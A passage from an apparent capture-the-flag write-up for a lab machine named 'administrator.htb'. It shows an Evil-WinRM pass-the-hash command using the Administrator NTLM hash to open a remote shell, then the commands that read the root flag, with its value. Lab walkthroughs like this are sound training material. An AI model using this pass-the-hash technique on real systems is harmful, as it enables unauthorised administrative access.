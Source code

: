 
## Step 5: Gaining Administrative Access

Using the NTLM hash of the Administrator account with Evil-WinRM:

```bash
evil-winrm -i administrator.htb -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

Inside the remote shell:

```shell
cd ..
cd Administrator
cat Desktop/root.txt
3983107348cc99cd929b487034b20896
```

